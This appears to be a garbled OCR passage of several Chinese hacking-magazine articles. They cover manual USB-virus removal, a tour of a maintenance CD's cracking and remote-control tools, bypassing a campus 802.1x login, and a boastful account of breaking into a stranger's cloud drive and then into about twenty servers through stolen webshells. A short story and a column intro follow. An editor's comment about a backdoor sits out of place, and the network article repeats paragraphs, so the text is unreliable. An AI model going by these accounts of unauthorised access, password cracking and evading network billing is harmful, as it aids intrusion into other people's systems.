将前面的 viuvpfn 的小钩去掉，然后退出。它提示你重新启动计算机以使修改生效，我们点击“退出而不重新启动”，不然我们做的工作全都白费了，因为我们还没清理源文件和注册表呢。

打开冰刃，选择“注册表”，按照刚才看到的注册表位置找到对应键值，之后删除，如图 7。

从创建时间以及刚才获得的病毒文件所在位置，我们可以找出和它们相关的文件，也将它们一起删除掉。

autorun.inf 这个文件相信大家也是经常见到的吧，我遇到的这个病毒就是在 autorun.inf 里面写了启动运行的程序路径，然后只要访问该文件，它就将其他程序自动启动了。

将注册表信息删除以后，再将源文件也删除。在冰刃中选择“文件”，然后找到以前看到的病毒释放文件所在的地方将文件删除，如图 8。

本来以为到这里就已经可以了，事实上一般情况就杀毒的话真的是到这一步就可以了，但实际上我们忽略了病毒最基本的一个特征——感染。


> 【文章中涉及到的 backdoor.exe 光盘中有收录】

**编辑点评：**

作者虽然最后只实现了执行一个指定的程序并且没有界面，但前面的各种测试是必经过程。这篇文章和 2007 年 11 期的 shift 后门的文章有些类似，但正是因为作者将他挖掘这个“漏洞”的整个过程都记录下来，我才决定留下它。其实这也不能算是“漏洞”，最多算是一个缺陷，而如果被利用了只能说管理员的安全意识欠缺。不论怎么说，这个方法用在忘记系统密码等方面还是不错的选择。


第一次我把 C 盘（系统盘）当中的毒给清理干净了，然后以为重新启动就一切 OK 了，重启以后，能够访问网页了，但是当我打算进入 D 盘试试软件的时候，我再次中招了，D 盘也被感染了啊，如图 9。


于是再重复进行一次以上所做的，最后在重启前增加一个步骤：其他盘也作一次杀毒工作。重新启动，赶快装杀毒软件吧，这是我在心里这样想、对着学校机房管理员说的话。我后来回去，在我的电脑上面查杀我的 U 盘，病毒显示为如图 10。

## 小结

其实应该说这篇文章的技术含量很低，有点亮点的应该算是结束进程的那一步吧，其他的都是靠软件完成的。杀毒的思路是：结束进程——关闭启动项——找出文件所在相关位置——删除对应注册表键——删除病毒源文件——检查删除其他盘的病毒。

第一次写东西，有不对的地方希望大家多多包涵。支持《黑手》，希望《黑手》越办越好。

> ［文章中涉及到的工具 IceSword 光盘中有收录］

## 编辑点评

这篇文章给大家展示了一个经典的 U 盘病毒查杀的过程，而正如作者所说，U 盘病毒的查杀切记最后要检查其他驱动器根目录下是否存在病毒释放体，这是很多 Autorun 病毒的共同点。而即使是查杀其他类型的病毒，我们也可以套用类似的模式，也就是作者最后提到的“杀毒的思路”。大家要记住：思路很重要！

## 挖掘深山红叶

从本文你可以了解到：详细了解深山红叶系统维护光盘中的目录、文件及功能。

深山红叶是一款不错的系统维护光盘，光盘搭载 Windows PE 操作系统，方便了不少一见 DOS 就头疼的人。里面不少绿色的小工具功能多多，十分方便，在这里给大家挖掘一下深山红叶中的宝贝，对系统安全和日常维护系统非常有用哦。（按程序所处路径分类）

### 1、根目录

我们可以通过打开根目录中的 Autorun.exe，在 Windows 中直接调用光盘里的小程序，十分方便。“安全资料”文件夹中有不少服务器安全方面的文章，均来自网上。比如：如何防止 ASP 木马在服务器上运行、Apache Web 服务器安全配置和 Windows Web 服务器配置安全规范等，都很有参考价值，很系统全面，从事管理服务器工作的朋友确实得好好看看。

### 2、PEXP 目录

就像系统的 Windows 目录一样，这里是 PE 操作系统的系统文件夹，主要文件都在 system32 这里。system32 文件夹中主要有这些小程序，挖掘出来给大家：

- **MSTSC.EXE** 这就是大家经常用的远程桌面连接，系统中没有的朋友把该程序和 mstscax.dll 拷下来就可以用了。
- **NC.EXE** 经典的“瑞士军刀”，配合 NC.TXT，里面有常用的 NC 命令，很实用！
- **PASSWDRENEW.EXE** 这就是在深山红叶中修改 Windows 登录密码的程序了，不过该程序无法在当前系统中改当前系统的密码，如果你有两个操作系统，在一个系统中想破解另一个的密码就可以用上它了。
- **TFTPD32.EXE** TFTP 上传工具。

### 3、PROGRAMS 目录

既然名为 PROGRAMS，那么几乎所有的程序都在这里了，这其中有不少很实用的程序呢！

- **LITESERVE** 很小的一个 Web 服务软件，可以简单地架设文件下载网站，可以提供 Web、FTP、SMTP、POP3 和 Telnet，支持黑名单和账户，功能很多。
- **PASSWARE** 密码破解软件集合，ACBTKEY.EXE 是破解 PDF 文档的程序；EFSKEY.EXE 是针对微软的 EFS 加密，当然不是破解，只是找出用户证书，我们查看加密文件时导入找出来的证书就可以了；OCRKEY.EXE 是用来破解 Outlook 的密码；OFFKEY.EXE 是用来破解 Office 文档密码；PROJKEY.EXE 是用来破解 MS Project 用到的程序；RARKEY.EXE 和 ZIPKEY.EXE 就是用来破解压缩文件密码的，WINKEY.EXE 则是用来破解 Windows 密码的，用起来比较麻烦。这些程序在用时都必须先导入 REG.REG，有了这个就不用再满硬盘里找破解程序了。
- **WINHEX** 不错的 16 进制编辑器，还可以对 RAM 和磁盘编辑，也可用来数据恢复。

### 4、PROGRAMS/TOOLS 目录

- **DTOOLS.EXE** 啊 D 网络工具包，小菜的最爱。
- **FILEMON.EXE 和 REGMON.EXE** 文件监视器和注册表监视器，手工杀毒时很有用。
- **FOXEYE.EXE** 狐眼，查看进程、窗口句柄、链接和共享的安全工具。
- **LANSEE.RAR** 局域网查看工具，功能很强大的哦。
- **RADMIN.RAR** 鼎鼎大名的 Radmin 远程控制软件，当年的不少 4899 肉鸡啊！
- **SAMINSIDE.RAR** 破解 Windows 当前密码，当然必须是登录后的系统，我们也可以用它破解远程终端的管理员密码哦。
- **UEDIT32.EXE** 强大的 16 进制编辑器，修改和免杀木马的好帮手！
- **WINPCAP.EXE** 不少扫描工具都用到它呢，这个是 WinRAR 做的，方便大家在网吧使用，安装很方便。
- **XSNIFF.EXE** 不用多说了，经典的网络嗅探器。
- **REGSHOT.EXE** 截取注册表快照，通过对比两次快照可以发现注册表的改动情况，手工杀毒很有用。

### 5、PROGRAMS/WINTOOLS 目录

- **【1】安全检测**
- **HIJACKTHIS** 一款出色的反间谍软件，可以检测注册表中启动和 IE 的相关键值并提示你。
- **ICESWORD** 相当出色的反黑利器，有出色的 RootKit 检测功能，现在的许多木马程序就以怎样过滤冰刃为标准来制作的。
- **NTFSINFO** 检测 NTFS 数据流的工具，可以及时发现 NTFS 数据流中的异常。NTFS 数据流毕竟也是一个不错的隐藏文件的方法，容易被人利用隐藏木马。
- **RKDETECTOR** 检测 RootKit 的两款程序。
- **进程管理查询** 这个进程管理器有进程数据库，可以方便地查询进程信息，判断木马病毒。
- **HOLESCAN.EXE** 漏洞扫描器，可以简单地扫描漏洞和开放的端口。
- **LP_CHECK 克隆账户检测.EXE** 检测克隆用户的工具，可以很方便地检测出系统中被克隆的用户，很实用。
- **OFFICE 启动安全检测.CMD** MS Office 启动模块检测的脚本程序，可以检测当前用户配置下的 Office 程序是否被植入可疑的自动启动模块。
- **PROCEXP.EXE** 很著名的进程管理器，用颜色来表示进程的安全情况，对隐藏进程的显示支持也很好哦。

- **【2】安全设置**
- **SAFEXP 安全设置工具.EXE** 通过改动注册表来设置 Windows XP 操作系统安全，强烈推荐小菜们使用，很方便的。
- **XP-ANTISPY.EXE** 一个简单的优化系统的工具。
- **恶意网页木马完全免疫加载.REG 和网页木马完全免疫.EXE** 都是禁用 WScript.Shell、FileSystemObject、XMLHTTP、ADODB.Stream 和 Shell.Application 组件的，感觉不是用来防范网页的，是用来防范 WebShell 的。
- **系统安全快速配置.EXE** 深山红叶中的安全配置脚本，可以很方便地配置系统安全。
- **卓尔系统贴心锁.EXE** 一个通过更改 NTFS 权限和注册表中启动项、文件关联的权限来防止病毒木马的脚本，很实用，推荐。

- **【3】病毒扫描**
- **ROGUECLEANER** 很好用的流氓软件清理助手，只不过版本太老了，建议下载新版。
- **COPYLOCK.EXE** 可以替换或删除正在使用的文件，手工杀毒很有用。
- **WINDOWS 杀毒助手.EXE** 同时结束多个进程的功能很实用，不光对付病毒，尤其是对付网管软件时……

> **编辑点评：** 当然，深山红叶是一款维护系统的工具盘，但我们照样可以在里面寻找到我们所需要的东西，大家在以后多留意一下手中的东西，或许你就会从中淘到宝哦！

## 轻松突破校园网限制

### homeshare 的使用


□ zhaolei

**从本文你可以学到：**

homeshare 软件的使用设置

新学期开的时候，学校对校园网进行了大幅度的改进强化，废弃了原来简单的使用账号和密码进行拨号的不安全方式，当然费用也是“改进”了不少，上网交钱天经地义！但是交得多了，对于广大高校学生来说真是很难接受（现在物价这么高），如何突破校园网的限制就成了同学们冥思苦想的课题。

以我们学校为例：学校采用 IP、MAC 和端口相绑定的方式来限制学生上网，先申请一个账号，然后到网络中心开户，得到一个 IP 地址。回到寝室在机器上修改 IP 后，再运行学校提供的“锐捷”软件，填入账号密码就能上网了。这样的话问题就来了，寝室想要上网，每个人都得申请账号，而且学校的认证服务器需要 802.1x（基于端口的访问控制协议）认证，这就不得不用锐捷客户端，真是麻烦！寝室里面兄弟几个建个局域网打打 CS，一起上上网岂不是更好！

废话少说！马上行动！首先是硬件上的准备！考虑到成本问题，建议买普通集线器或交换机都可以，至于设备上的端口数，那就根据寝室人数而定了。组好网之后就该对每台机器进行软件安装及设置了。每台要上网的电脑都要安装锐捷客户端，如图 1，这样可以方便任一台电脑都能进行拨号作为服务器。

先不着急对 IP 进行设置，但最好将本地连接属性中的验证一栏的“启用此网络的 IEEE 802.1x 验证”前面的勾去掉，如图 2，以免麻烦的反复认证。然后运行破解 802.1x 认证的软件 8021x_2.50_patch.exe，如图 3，点击 patch 找到硬盘上安装的锐捷应用程序即可。

轻松解决掉 802.1x 之后，多台机器上网的问题就视情况而定了。两台电脑的话用桥接的方式就可以，三台以上的话就得请出今天的主角——“homeshare”。安装很简单，直接运行目录下的“驱动安装”就行。安装完之后运行 homeshare。总的来说，homeshare 是专为宽带用户设计的共享工具，包括以太网、ADSL、有线宽带、WLAN 等。接下来对 homeshare 进行设置，如图 4。

第一行是本机的网卡，在内网设置部分所有的电脑要设置在同一个 IP 段，网关设置相同，这样可以使安装过 homeshare 的电脑都处在同一虚拟网络中，方便了信息的相互交换。连接类型中的选项要根据上网类型选择，我们学校里的是账号、IP 地址、MAC 绑定式的拨号上网，那就选择“固定 IP”形式，网络号不用管。接下来的地址设置选项中就填入申请账号时学校分配的固定 IP 地址、网关及 DNS，最下面显示的是连接时间和连接状态。


勾上对号，这里有几项需要注意：“无缝切换”一定要选上，因为安装过并运行 homeshare 的电脑中先开机的电脑将成为服务器（负责拨号），当服务器关机后，其他电脑将会自动成为服务器，保证网络可以继续使用。启动“无缝切换”后，当服务器关机，客户机会自动切换连接到新的服务器上，同时可以保证客户机中的使用网络的应用程序，如：QQ、网游等不会中断。

上网的电脑就是请求者，请求者必须运行符合 802.1x 客户端标准的软件，并对认证者的协议请求报文进行应答。认证者在认证过程中只是一个认证信息交换的中间人，负责与请求者通过相关协议通信，将请求者的认证请求发往认证服务器，而后根据认证服务器的指示判断是否对请求者进行授权，认证者一般就是交换机。

认证服务器是最终请求者需要的服务的实际提供者，它认证请求者身份并将认证结果通知给认证者。整个认证过程无误后，请求者将被允许使用网络，否则将无法正常使用网络服务。以上的认证过程只能是一对一地进行的，那我们的 homeshare 是怎样办到一对多的认证呢？

使用固定 MAC 地址这里要注意，根据我使用的经验，这里填入的是第一台拨号上网的电脑的 MAC 地址，并且其他电脑的 homeshare 一定都要使用相同的 MAC 地址，如果填入的 MAC 地址错误，homeshare 将无法连接作为服务器的电脑，并且显示无法连接，MAC 地址错误。如果作为服务器的电脑使用错误的 MAC 地址，homeshare 可以工作，但拨号时将显示如图 6 的提示，换了 MAC 地址就要重新认证，但在同一端口上不能有两个 MAC 地址进行认证，因为端口与 MAC 地址进行了绑定。其他的选项都很好理解，默认或根据具体的需要填写都可以。


开机后运行 homeshare，这时 homeshare 将检查局域网内是否有作为服务器的主机存在，若有则自己作为客户端连接服务器，若没有则将自己设置成服务器。其他机器的 homeshare 将根据设置好的 IP 和 MAC 地址发送数据包到负责拨号的服务器电脑上，由充当服务器的电脑将经过伪装的数据包提交给远端的交换机（即认证者），认证者再告知认证服务器，由服务器判断请求者能否通过认证（当然可以了 ^-^）。这样在认证者看来始终是一个请求者与其通信并获得网络服务的使用权，其实请求者的背后还有很多个使用网络服务的主机，如果客户机在连接到服务器上后过去拨号的话，就会显示如图 8 的信息，与图 6 的情况一样，很明显一台以上的请求者在同一个端口上请求认证，而这是不行的。


软件方面的安装设置就完成了，上网时先开机的电脑作为服务器进行拨号，其他电脑只要运行 homeshare 的都可以上网了。认证过程是这样的，如图 7。


整个认证过程分请求者、认证者、认证服务器三个角色。要求上网的电脑就是请求者，请求者必须运行符合 802.1x 客户端标准的软件，并对认证者的协议请求报文进行应答。认证者在认证过程中只是一个认证信息交换的中间人，负责与请求者通过相关协议通信，将请求者的认证请求发往认证服务器，而后根据认证服务器的指示判断是否对请求者进行授权，认证者一般就是交换机。

homeshare 解决了单联网卡共享上网的问题，尤其是在条件较为苛刻的情况下。至此前面提到的问题完全解决了，但是在实际使用中会有偶尔掉线的情况，具体的原因还有待于进一步思考。第一次发文章，有不对的地方还请各位高人们不吝指正。

> **编辑点评：** 共享上网自从流行起来后已经出现了许多相关的软件及技术，共享上网所需要的软件在很早以前叫代理服务器软件，也被称为软路由，这次给大家介绍的 homeshare 软件也是非常不错的哦！

## 黑吃黑大战——之记一次非主流的入侵

**作者** 逍遥黑九 / 江泽来

- 从本文你可以学到：
- 自己的 ys168 网盘的正确安全设置

### 一、起因

一天甚是无聊，就从黑鹰 down 了一些脚本入侵教程研究学习（菜鸟嘛，不学习怎么飞呢？），在群里看到某篇“后台维护作者留了一个脚本进行非法传播”的内容，于是乎便加了上去，不一会就通过了管理员的验证，如图 1。

### 二、搜“鸟”

看到群公告处写了一个 ys168 的网盘（ys168 网盘我想大家都不陌生吧？该网盘提供了 30M 的免费空间，下载速度很快；深受小黑们的喜爱，除了 QQ 载点，用得最多的也就是它了！），竟然还设置了登录密码，搞得我心里怪痒痒的。群里共享的东西也不少，但我只对那批“兔杀”大马感兴趣，如图 2。

前天的一场大战，诺顿大叔将我所有的马儿都“毒”死了，正琢磨着找个地儿偷一个全副武装的宝马呢，这不顺手就牵了回来。打开后发现除了密码以外其他它都加了密，如图 3。交给诺顿。


大叔测试了一下，确实金枪不倒，哈哈！真是“踏破铁鞋无觅处，得来全不费功夫！”。

## 三、盗宝

而后利用如图1所示的密码“ruqinxiaozu”顺利地进入了网盘，发现都是些群主的私人资料，而群公告里还说让大家把好东西都往里传，起初还真以为有什么内部资料呢！正准备将其关闭时，却发现其中的两个名为“服务器”和“WEBSHELL”的文件夹显得非常刺眼，如图4。

单凭字面上理解就知道一定是群主的私人小金库，幻想一下如果能打开，那……呵呵！心动不如行动，试着点击了下“WEBSHELL”文件夹，弹出如图5所示，要求输入密码验证。用进网盘和群共享的兔杀大马里的密码试了下，均都失败！如图6所示。我想管理员也不会这么弱智，随手就点了下“取消”按钮，却意外地出现了如图7所示界面。


现在是不是就意味着已经进来了呢？立即点击了其中一个后面的“打开”链接，汗……竟然真的打开了，而且里面全是大把大把的 webshell，如图8。

低调！低调！不要高兴得太早，没有密码照样还是进不去！随便复制了一个地址打开，用在群共享里的密码 123456 试了下（社会工程学嘛！），还真的进去了，如图9。其它的也都是这个密码，有的 SHELL 设有不同的密码，在 shell 下方也注明了密码，群主可真为我着想，原来他也是一码走江湖，呵呵！


上面的“服务器”文件夹依照此法一样成功打开，如图10。账号密码都为我们添加好了，只等我们去连接。这里我就不浪费《黑手》版面了，大致数了下，近四五十个 webshell，能成功登录的就二十多台服务器。上天知道我技术菜，吃到鸡腿，所以就给你摆了个肉鸡宴！


## 四、分析

最后，我想大家肯定都想知道为什么会出现这种情况吧？刚开始我也很郁闷，于是就用自己的网盘进行加密测试，最后发现群主竟将网盘提供的服务都勾选上了，如图11（看到这里大家是不是想到了目录浏览漏洞），试问有多少人注意过这些细节呢？正确的设置应为如图12所示，大家赶紧翻翻自己的网盘吧，看看是否也把不该选的都选上了。另外提醒大家，重要的资料千万不要随意乱存，引用某牛人的


> “没有绝对的安全，只有绝对的不安全！”，有什么问题到论坛来找我，ID：xyziza1。

**编辑点评：**

有时候就是因为自己的懒散才造成信息的泄露！无论何时，以后大家在进行安全设置的时候，不要太性急，多争点时间好好地理解需要选择的设置，更要多上网搜索自己所使用的这个服务有没有漏洞之类的 BUG。

## NOT GAME —— 不是游戏


XApache：最近去参加了帮帮网和 ChinaUnix 共同举办的媒体精英见面会，地点在人民大学附近，离我住的地方不远，于是和另外一个朋友去了。接待人员挺客气的，还给了我一个放了礼物的手提袋。还没在位置上坐好，就有很多朋友过来交换名片，于是开始了发牌机一般的工作，有些公司的名片做得还是不错的，可有些公司还把自己的股票号码印在名片上，就怕别人不知道自己是上市公司，小编我就有点……

酒过三巡之后，发现《电脑爱好者》《电脑世界》《世界华人精英》等刊物的人都在宣传自己的杂志，光拿别人的还真有些不好意思呢，呵呵，回头找《黑客手册》介绍给他们吧。

### 深深地堕入

可喧的好命不是她自己说，是任何明眼人都可以看见的事实。自懂事起，她的家庭条件就一直很好，妈妈比较疼弟弟，但她却是爷爷奶奶的心头肉。20岁大学毕业，22岁结婚，老公叫米蓝，是在论坛上认识的学计算机的男子。和可喧结婚后开了个网络公司，生意做得风生水起，两人的感情也如网络婚姻中浓情四溢。

悠闲的日子过久了心显枯燥，老公见可喧老闷闷的，就在电脑上装了个游戏，告诉可喧没事的时候可以玩玩。

又是无聊的一天，可喧看着老公出门，无聊地打开电脑，切换在各个页面之间，换了 N 个马甲在论坛上回同一个人的帖子，却激不起半点反响，自己感觉有点累，关闭页面，一遍遍地刷新屏幕。桌面上有个红色旗帜的图标，好像是米蓝装的那个游戏。点击鼠标打开，左边显示电信区与网通区，右边就是介绍和开始游戏。可喧随便点了个电信的服务器，进去创建人物取名小笨猪，国家选在赵国。进入游戏后，一个赤裸着身子的女孩子站在新手村，试着移动鼠标就发现头上有小笨猪名字的人物在动，感觉很好玩，于是赶紧进入官网看看有无玩法。终于知道得差不多了，再进游戏，按照提示一步步地做任务，任务做完后得到了衣服和武器，可喧美滋滋的。她选择的职业是仙女，专门帮人加状态的。到10级的时候可以去凤凰城了，凤凰比新手村大了很多，可在这儿的任务也比在新手村难了许多。

可喧一边做任务一边发呆的表情，旁边一个骑马的停了下来问可喧：“小笨猪你怎么了，是不是需要我带你呀？”

“怎么带？”

那骑马的发了个惊恐的表情：“莫非你是第一次玩？什么也不懂？”

可喧不好意思地笑：“呵呵，无聊来看的。”

“你该去官网看看吧。我先教简单的给你，10级出新手村，30级可以去王城，还可以买马，然后等级越高你的马就不同。50级之前可以荣誉组队，大家带小号，这样大号得荣誉值可以月底领奖，小号可以得经验，你现在要我带你么？”

可喧顿时地点头：“要要要。”

有大号带着的感觉就是不同，那骑马的一个人站在怪物里面打，可喧就坐在没怪的地方看着，知道这人的等级有105了，骑的马叫铁马，嘿嘿，还挺漂亮的。没到两个小时，可喧就到50级了，那人说不能再带荣誉组队了，于是给了可喧50L银子（游戏里用的钱）让她去买马和一个宠物，可喧骑着马在凤凰城使劲地转，后来想起骑铁马的说可以去王城，跑到车夫那里花了2L银子飞到了王城。

慢慢地在王城转来转去，可那些玩家吆喝的话一句也听不懂，铁马人给的钱也花得差不多了，可喧想这游戏的钱该怎么赚？打开官网慢慢找吧，终于知道打怪会爆东西，把那些东西拿到杂货店去卖可以赚钱，娱乐城做的就是拉骆驼的任务。官网的论坛上还有一些玩家写的游戏心得，有很多的玩家在游戏中写自己经历的感情故事，文笔非常地好。可喧想着一个游戏会有这么多的故事么？伸个懒腰起身去做饭。

饭做好米蓝也下班回家了，吃完饭米蓝从背后拥着可喧：“老婆，一天都做什么了，今天看起来心情不错哦。”

可喧转身：“老公你给我装的那个游戏挺好玩的，看了下官网和论坛，只是奇怪游戏里的感情是真的么？”

“哈，那个游戏现在可是最火爆的一个哦。游戏里也可以玩出感情的，因为那游戏很像生活。但是你不允许哦，玩游戏可以，动感情就不行哈。”

“切，我才不会呢，看我像那么低智商的人么？”

米蓝封住可喧的嘴：“我来试试，看你的智商是不是像你自己所说的那么高。”一把抱着可喧走进卧室。

得到了米蓝的许可，可喧就天天泡进了游戏里。有了游戏的世界，对米蓝也不怎么关心了，每天就想着做任务升级赚钱打装备。偶尔连晚饭也会忘记做，米蓝也不怪罪，只是加班的时间越来越长。

小笨猪已经99级，拉完今天的车就可以升到100骑铁马了。从王城拉车到边境，要经过南郊。一般级别高的外国人会在南郊抢劫，不过现在是太平盛世，抢劫的情况是少之又少，可喧在游戏中就从没被抢过。跟着一大群人拉车快到南郊口的时候，突然前面有两趟车被封往角落里拉。可喧奇怪，急忙喊：“你们做什么呀。”

“别说话，跟着来就是。”

可喧迷糊地跟着前面两趟车走，边走边看警示系统报警，有燕贼在赵国王城装车队。“晕啊，这下死了，还想升100呢。你们怎么知道有老外的呀。”

一个叫铜铜的人说：“还真是小笨猪，不会看国家聊天呀。”转身又对逍遥说：“你守着车，我去看看，没事我叫你们。”

铜铜去侦探敌情，可喧就和逍遥有句没句地说话，哪知道逍遥是个闷葫芦，问句答句，不问不说。可喧郁闷得很。好在铜铜很快回来说明老外被杀了，可以走了。一路上可喧一直问铜铜问东问西，到了边境交车的地方两人俨然已经是老朋友的架势了。两人互相在游戏里加了好友。铜铜对小笨猪很是照顾，知道她不会打装备就打了匹铁马送给她，还带着她一起做任务。说实话，小笨猪真是铜铜和逍遥的累赘，因为他们俩级别比小笨猪高了20多级，经常要照顾她，或许小笨猪的可爱吧，铜铜把小笨猪当妹妹一般疼爱着。

一直把全部心思放在游戏里的可喧没心思去关注米蓝的细小变化，她在米蓝回家的时候会很有兴趣地拉着他的手告诉他游戏里发生的一切，却不去问米蓝的工作怎样，她甚至没发现米蓝最近越来越沉默，对着她除了微笑还是微笑。

又上游戏，铜锣和逍遥都不在，小笨猪一个人无聊地在城里转来转去，想着等他们来了再一起做任务。无聊中跑到竞技场看别人去 PK，刚坐下来看见系统提示：好友铜锣上线，正准备打招呼发现自己躺在了地上。打开与铜锣的对话框就发了个哭的表情给他。在数落了她 N 遍还是不会看仇人列表之后，铜锣只好冲到竞技场问：“谁杀了小笨猪。”

一个叫“秒你就是一刀”的说：“杀了小笨猪好过年啊。”

铜锣学的是战士，过去就是一个冲锋，“秒你就是一刀”立马躺地下，铜锣对着尸体说了句：“垃圾。”转身对小笨猪说：“我们走，以后谁敢杀你就叫我和逍遥。”

小笨猪笑得连眼泪都流出来了：“你怎么这么厉害呀！”

铜锣夸张地笑：“这就叫厉害呀，逍遥更厉害，他用毒的。”

小笨猪奇怪地问：“他很毒吗？怎么看不出来了。”

铜锣直冒汗：“你名字取得可真不错。我是说他有放毒的技能，那个技能很厉害的。”

“嘿嘿，不知者不怪，人不毒就好了。”

正说着话，来了几个报仇的人，小笨猪挂了N次，但他们也被铜锣全解决掉了，在小笨猪又一次躺在地上的时候铜锣说：“我们还是走吧，你太脆弱了，在这继续站下去我的小命也会没了。”

两人做了快两小时的任务逍遥才上线，一上线铜锣就问小笨猪：“你这没结婚吧？那就嫁给逍遥吧！”

“啊～”

“啊什么啊，就这么定了，你这么笨得找个人保护你才行。晚上等我来了拉婚车。现在给你们时间培养感情。”没等小笨猪再说话铜锣就下线了。毕竟是女孩子，看着逍遥不好意思说话，倒是平常闷葫芦一样的逍遥说：“你愿意嫁给我么，我会尽力保护你不受伤害的。”

小笨猪默认，于是两人商定等铜锣来了拉婚车。逍遥说：“我带你去个地方。”小笨猪跟着逍遥到了一个雪山上，这个雪山有点奇怪，总是上面有个亭子，亭子周围有很多粉红的花，两个人坐在亭子边上说话。逍遥说自己刚毕业，学的是计算机编程。现在还没找工作，无聊就在家玩玩游戏。没女朋友，小笨猪是第一个女朋友，不管网络还是现实。她又问可喧，可喧却不肯说，只说暂时没男朋友，在家玩。铜锣上线，呼叫小笨猪和逍遥，说在红娘处等着他们。一路上好多铜锣和逍遥的朋友都来保护和祝福，他们到王城礼官处举行仪式，逍遥派发红包，小笨猪一个劲地说谢谢。显示屏后面的她神采飞扬，真的像又结了一次婚那么高兴，甚至没听见米蓝回来。

米蓝淡淡地看着眼中又有了光彩的妻子，不知道自己让可喧接触游戏是对是错。毕竟她一直在安稳的生活中长大，唯一的激情就算是与自己的网恋了。不忍打扰沉浸在虚幻幸福中的可喧，一个人走到客厅坐下。小笨猪跟逍遥和铜锣约好了下次上线时间后退出了游戏，走到客厅看见米蓝坐在沙发上，愣了一下扑过去：“老公，我在游戏里结婚了。哈，那孩子比我还小哎。”

米蓝笑：“你开心就好，不要弄假成真哦。”

可喧撒娇地：“怎么会，我老公这么棒。”

小笨猪已经到了130级了，与逍遥的感情和铜锣的友谊似乎也在升级，他们在对方的QQ好友里，还建了个QQ群，全是游戏中的好友。铜锣宣布：“我决定不玩游戏了，你们玩得开心点。”这个决定，没人可以挽留。游戏里剩下逍遥和小笨猪做神仙伴侣。逍遥说：“老婆，我好像真爱上你了，视频那头的你会牵动我的情绪。”

小笨猪留了电话给逍遥，逍遥会打到电话欠费手机没电。小笨猪在电话里不停叫老公，一直叫他的名字：逍遥。可她自己终于忍不住在游戏里对逍遥说：“老公，其实我欺骗了你，我已经结婚了，我没你想的那么美好。”

长久的沉默，等待决定的那段时间像是生死的过程，小笨猪留言下线：“自作孽不可活，我尊重你的一切决定，好的坏的我自己已承受。只愿你能开心便好。”

原来游戏里的感受会直接影响到心情，可喧把饭烧焦了，她对着米蓝抱歉地笑，晚上洗澡后抱着米蓝的身子感觉惊奇：怎么会一下瘦了那么多。把头使劲埋到米蓝的胸口，有个爱自己的老公真的很好。第二天可喧不敢马上进游戏，在房子里转着找些零碎的事来做。洗澡间放着米蓝昨天洗澡换下的衬衣内裤，拿过浅蓝衬衣的时候闻到淡淡的香水味，未作他想地洗好晒起。

可喧打开QQ，上面有逍遥的留言：想过了，那不是欺骗，只是隐瞒，我不在意，游戏里等你。

眼泪突然就那么流了下来，她更新好游戏上线。逍遥果然在，他说他一直等一直等，他相信她会来，他说他会争取，不管游戏还是现实，他决定了她就是他的老婆。可喧感动满溢，但她对着屏幕却敲不出任何有力量的字，只是重复着说：“对不起，不可能！”

逍遥说等他有能力养她了就一定去她在的城市找她，那时候他就可以在米蓝的面前带她走——

可喧终于注意到了米蓝，直到那件浅蓝的衬衣出现了一个鲜红的口红印。没有争吵，也不需要解释，那抹艳红已经说明了一切。米蓝催可喧快离婚，可喧搬出去住在娘家，这段婚姻在所有人的不解和疑惑中落幕。

可喧已经不再上游戏，她在QQ上告诉了逍遥自己离婚的消息，收到的是逍遥的一段留言。

> “对不起，我从来都不知道自己会爱一个人到恨，游戏里的默契应该都是真的吧，我相信你所说过任自己爱上你，你却把我想要与你共度余生的愿望狠狠地撕碎。我说是隐瞒不是欺骗，但隐瞒就等于欺骗。或许是我害了你，让你离婚，而我最终也会背着愧疚伤心过一辈子，让我们一起沉沦吧。我会消失，让你感觉我从没进过你的世界，但会在你心里踩下脚印。再见。”

心死如灰的感觉可喧终于体会到了。在各个网页之间切换，却是另一种心情，看论坛打开一页页的帖子，看到动人处一面泪一面笑。无意中打开许久未曾打开过的邮箱，收到米蓝的信：“老婆，我累了，或许你还是孩子，可我却没有那么大的翅膀护住你。应该是我的错吧，把你带进游戏却不管不问，那段时间公司出了点问题，全身心在游戏中的你看我就像透明人。经常半夜被你在睡梦中叫醒，口里叫的全是别人的名字。我破译了你的QQ密码，看了你和逍遥的聊天记录，看得人心寒，在叫他老公的时候你会想到我么？还有你游戏时就没发现你们身边经常有一个小战士在边上看着你们说话么？口红是我故意印上去的，和你离婚也是我故意的。我知道你的性格，所以这样做能不能把你拉回来。暂时就让我们试着分开，如果可以，我们相约两年，相信经历过逍遥的我们感情应该会更稳固。还在爱着你的老公。”

可喧对着信泪水滔滔，原来爱一直就在身边，只是在不经意中让风筝断了线，虚幻中的美好远不如握在手中的平凡更真实而可靠。虽说人生如戏，但却不可游戏人生啊！整理心情，重新上路，可喧相信，今后的自己，定会抓住手边的幸福。

## 编辑点评：

本条心情女人的文笔还是保持着她的风格，思路也很清晰。看着两年之约我忽然有点想到杨过和小龙女，不过那边是善意的谎言，这里却是真实的约定哦。另外借着这篇文字我也向读者朋友们唠叨一句，要尽量控制自己的游戏时间哦，有时间多陪陪自己的亲友和爱人吧。


小天栏目。

本期“新闻练练看”第一次刊登“最新漏洞大看板”这个专题，有必要做些说明和交代。

## 一、专题由来

网络安全的话题虽然不断地被新兴的话题和名词充斥着，而“新闻练练看”栏目的宗旨也正是提供给大家最新鲜的漏洞分析和利用技巧，但是我们发现还是赶不上一些人的步伐。很显而易见的是，几年前人家玩 SQL 的时候，我们才刚刚开始接触网络安全；等我们开始关注 SQL 的时候，有些人的跨站等已经利用得炉火纯青；而当我们把目光放在跨站等上时，他们的步伐又再一次地远离，好像我们总是慢了别人半拍。是个人技术不行？是自己不够创意？还是……？其实是视觉的宽度不够，我们的目光老是停滞不前，老是喜欢盯在以往的成绩上，所以，我们需要走出去，寻找最新鲜的东西。

## 二、专题宗旨

每期都有！通过收集、过滤、整理国内外最新的漏洞资讯和漏洞分析技巧，结合读者的水平和需要，取那些比较独特、在杂志上没有刊登过的内容，并对筛选的内容加以详细的分析和解读，希望可以带给大家更多的思考。

## 三、参与方式

把你知道的新漏洞加以自己的点评和分析发送到我们的投稿邮箱，对每期介绍的新思路和漏洞，加以实践和利用，撰写文章，投稿给新闻栏目，分享给更多的人。

## 四、后记

编辑到最后一篇文章的时候，才猛然发现，快过年了，小编提前祝愿大家新年快乐。

## 最新漏洞大看板


## 一、写在前面的话

我们阅了很多国内外最新漏洞发布和研究站点的 RSS，经常看到很多不同的思路和方法，于是应“新闻练练看”栏目小编逍天涯之邀，从 2009 年开始，每期分享一些我个人筛选、整理的漏洞分析和解读。希望大家能多对这个专题提出自己的看法或者要求，以便于我了解大家真正想要的是什么。

